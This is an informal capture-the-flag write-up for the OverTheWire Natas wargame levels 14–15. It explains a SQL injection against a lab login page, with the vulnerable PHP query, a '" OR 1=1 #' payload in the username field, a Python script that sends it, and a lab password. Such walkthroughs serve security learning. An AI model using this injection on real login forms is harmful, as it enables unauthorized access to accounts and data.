 Its looks like they are using SQL database and username & password are concatenate into `$query` variable , that variable executing in `mysqli_query($link, $query)` then let use SQL injection

```php
 $query = "SELECT * FROM users WHERE username=\"$username\" AND password=\"$password\"";
```

They are using `"` to enclose the string let terminate that with another `"` in username field and then inject SQL like `or true`

```
natas 15 " OR 1=1 #
```

`#` or `--` used to comment remaining keywords , this will like this return record where username = "natas15" OR 1=1 #

```py
import requests
import re

username = 'natas14'
password = 'qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP'

url = 'http://%s.natas.labs.overthewire.org/'%username

session = requests.Session()
response = session.post(url , data = { "username" : 'natas15 " OR 1=1 #' , "password" : "" } , auth=(username,password))
content = response.text
flag = re.findall("The password for natas15 is (.*)<br>",content)[0]
print(flag)
```

---

### Natas 15

<img src="img/Pasted image 20240505151416.png" alt="Example Image" width="1080"/>
<br>
its looks like a username field , so i tired natas16
